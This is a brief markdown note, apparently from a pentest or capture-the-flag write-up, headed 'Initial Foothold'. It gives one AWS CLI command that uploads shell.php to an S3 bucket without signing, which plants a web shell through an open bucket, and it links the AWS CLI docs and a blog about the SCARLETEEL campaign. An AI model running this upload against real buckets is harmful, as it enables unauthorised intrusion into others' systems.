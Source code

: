 # Initial Foothold

`$ aws s3 --no-sign-request cp shell.php s3://<s3_bucket_IP>`

## References

https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html

https://sysdig.com/blog/scarleteel-2-0/